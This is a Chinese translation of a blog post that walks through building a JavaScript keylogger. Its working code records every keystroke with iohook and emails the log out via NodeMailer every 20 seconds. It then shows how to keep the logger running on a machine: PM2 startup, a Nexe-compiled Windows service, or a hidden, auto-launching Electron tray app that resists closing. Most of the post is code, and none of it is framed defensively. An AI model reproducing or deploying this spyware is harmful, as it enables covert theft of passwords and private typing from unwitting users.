 # JavaScript 中的键盘记录器

> 原文：<https://blog.devgenius.io/keylogger-in-javascript-e77b78cd7219?source=collection_archive---------5----------------------->

## 是的，有可能。

![](img/89cd7d604db47f113d794b153636308f.png)

由 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的[克里斯托佛罗拉](https://unsplash.com/@krisroller?utm_source=medium&utm_medium=referral)拍摄的照片

对于核心实现，我需要两个主要的外部库: [IoHook](https://wilix-team.github.io/iohook/) 和 [NodeMailer](https://nodemailer.com/about/) 。

```
"dependencies": {
  "**iohook**": "^0.9.3",
  "**nodemailer**": "^6.7.2"
}
```

第一步是在 *keyDown* 事件上启动 IoHook 监听器，从自定义输入映射中读取实际字符。事实上，不幸的是，事件返回的按键代码与特殊字符的实际代码并不对应，所以我们不能使用 *String.fromCharCode()。*

```
const **ioHook** = require('iohook');const **keyNamesWin** = { // ... 
  52: '.',
  53: 'ù',
  54: 'Shift' //.... }let **cache** = []**ioHook**.on('keydown', (event) => {
    **cache**.push(**keyNamesWin**[event.keycode])
});
```

第二步是实际配置 NodeMailer SMTP 帐户。在这种情况下，我使用的是一个假的 [MailTrap.io](https://mailtrap.io/) 账户。

```
const **nodemailer** = require('nodemailer');
const **transport** = **nodemailer**.createTransport({
    **host**: "smtp.mailtrap.io",
    **port**: 2525,
    **auth**: {
        user: "xxxx",
        pass: "xxxx"
    }
});
```

T 第三步是使用[生命函数](https://developer.mozilla.org/en-US/docs/Glossary/IIFE)来启用保存在**缓存**变量中的定时器，该定时器实际上发送保存在按键下的邮件。

```
(function timer() {
    if (cache.length > 0) {
        mailOptions.text = cache.toString()
        ***console***.log('mail')
        transport.sendMail(mailOptions, (error, info) => {
            if (error) {
                return ***console***.log(error);
            }
            ***console***.log('Message sent: %s', info.messageId);
        });
        cache = [];
    } else {
        ***console***.log('empty')
    }
    setTimeout(timer, 20000);
})();
```

关于程序的实际执行，有两种主要场景:在节点。JS 运行时已安装并可用，以及节点的位置。JS 未安装。

F 或者第一种情况 **(NodeJS===true)** ，我们可以简单地使用 Node.JS 的 [PM2](https://pm2.keymetrics.io/) 进程管理器来执行脚本

```
> npm install -g pm2 
> pm2 start index.js
```

也可以启用一个 [PM2 启动脚本](https://pm2.keymetrics.io/docs/usage/startup/)，让它在系统重启时启动。(对于 windows 机器来说稍微复杂一些，但无论如何都是可行的)。

F 或者第二种情况 **(NodeJS===false)** ，一种解决方案是使用 [Nexe](https://github.com/nexe/nexe) 将 Node.js 应用程序编译成单个可执行文件。您需要从列表中为可执行文件选择一个合适的运行时。您可能希望将该可执行文件作为服务安装。对于 windows，可以使用令人敬畏的 [NSSM](http://nssm.cc/) 。

```
> npm install -g nexe
> nexe index.js -o test -t windows --build --verbose
```

*(注意:第一次构建需要一段时间。对于 windows，它可能会要求您安装*[*NASM*](https://www.nasm.us/pub/nasm/releasebuilds/2.15.04/win64/)*也。)*

Windows 操作系统的另一个解决方案可能是构建一个[电子。JS](https://www.electronjs.org/) 可以最小化启动并自动配置为在启动时启动的应用程序。

```
const AutoLaunch = require('auto-launch');
const nodemailer = require('./node_modules/nodemailer')
const ioHook = require('./node_modules/iohook')function **init**() { 
  // here we have the exact same code for the keylogger provided above. 
} let tray = null

function **createWindow** () {
  let autoLaunch = new AutoLaunch({
    name: 'Your app name goes here',
    path: app.getPath('exe'),
  });
  autoLaunch.isEnabled().then((isEnabled) => {
    if (!isEnabled) autoLaunch.enable();
  }); const mainWindow = new BrowserWindow({
    width: 1,
    height: 1,
    frame: false,
    webPreferences: {
      nodeIntegration: true,
      enableRemoteModule: true
    }
  }); tray = new Tray('icon.png')
  tray.setToolTip('This is my application.')
  tray.setContextMenu(Menu.buildFromTemplate([
    {label: 'Disable', type: 'radio'}
  ]))
  mainWindow.loadFile('index.html')
  mainWindow.on('minimize', function (event) {
    event.preventDefault();
    mainWindow.hide();
  });
  mainWindow.on('close', function (event) {
    if (!application.isQuiting) {
      mainWindow.minimize();
    }
    return false;
  });
  mainWindow.minimize()
  init();
}
app.whenReady().then(() => {
  createWindow()
  app.on('activate', function () {
    if (BrowserWindow.getAllWindows().length === 0) createWindow()
  })
})
```

在这种情况下，需要在根级别的 package.json 中定义 IoHook 库的目标。

```
"iohook": {
  "targets": [
    "node-83", // this is the node ABI
    "electron-87" // this is the electron ABI 
  ],
  "platforms": [
    "win32",
    "darwin",
    "linux"
  ],
  "arches": [
    "x64",
    "ia32"
  ]
},
```

最后，[electronic-builder](https://www.electron.build/)将提供这个电子应用程序的安装程序，它将作为一个托盘图标最小化。
